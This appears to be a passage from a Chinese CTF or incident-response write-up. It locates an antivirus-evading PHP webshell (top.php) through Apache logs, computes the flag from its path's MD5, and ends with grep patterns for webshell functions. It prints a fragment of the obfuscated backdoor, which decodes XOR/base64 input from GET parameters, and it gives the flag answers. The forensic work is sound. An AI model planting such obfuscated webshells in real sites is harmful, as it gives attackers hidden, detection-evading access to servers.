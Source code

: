 ```
flag{aebac0e58cd6c5fad1695ee4d1ac1919}
```
## 四、flag4
**黑客免杀马完整路径 md5 flag{md5}**
什么是免杀马？
**免杀马**（免杀病毒或免杀Webshell）是指经过特殊处理和混淆，使其能够避开杀毒软件和安全检测工具识别的恶意软件或后门程序。黑客使用各种技术手段，使恶意代码看起来像是正常代码，从而躲避签名检测和基于规则的安全机制。这种技术通常用于Webshell和其他后门程序，目的是保持对受害系统的隐蔽访问。
免杀马通过静态检测是检测不到的，因为在免杀的过程中将webshel的特征值以及特征函数都给去掉了，因为webshell执行会在网站日志留下记录，那我们就到网站日志里面看看有啥可疑的记录，这里也顺便说一下linux的日志存放在/var/log目录下。
然后我们进入日志看一下日志文件：
进入日志文件夹后发现一个apache2的文件夹，说明网站使用了apache2进行搭建。
![Pasted image 20250319205732](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319205732.png)
进去后，看一下access.log文件。
![Pasted image 20250319205826](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319205826.png)
进去后，发现一个top.php执行了phpinfo()；且返回值为200，有点可疑。去找到相对应的文件发现是一个正常的文件来。
![Pasted image 20250319210029](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319210029.png)
打开文件发现是一个使用base64_decode进行编码混淆了。
```php
root@ip-10-0-10-5:/var/www/html# cd wap
root@ip-10-0-10-5:/var/www/html/wap# ls
index.php  template  top.php
root@ip-10-0-10-5:/var/www/html/wap# cat top.php 
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
```
查看一下绝对路径：
```php
root@ip-10-0-10-5:/var/www/html/wap# pwd
/var/www/html/wap
root@ip-10-0-10-5:/var/www/html/wap# 
```
绝对路径：
```
/var/www/html/wap/top.php
```
然后进行MD5加密：
![Pasted image 20250319210635](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250319210635.png)
flag：
```php
flag{eeff2eabfd9b7a6d26fc1a53d3f7d1de}
```
# 总结
1. **找webshell地址**
```php
//搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征
find ./ type f -name "*.jsp" | xargs grep "exec(" 
find ./ type f -name "*.php" | xargs grep "eval(" 
find ./ type f -name "*.asp" | xargs grep "execute(" 
find ./ type f -name "*.aspx" | xargs grep "eval(" 
//对于免杀Webshell，可以查看是否使用编码
```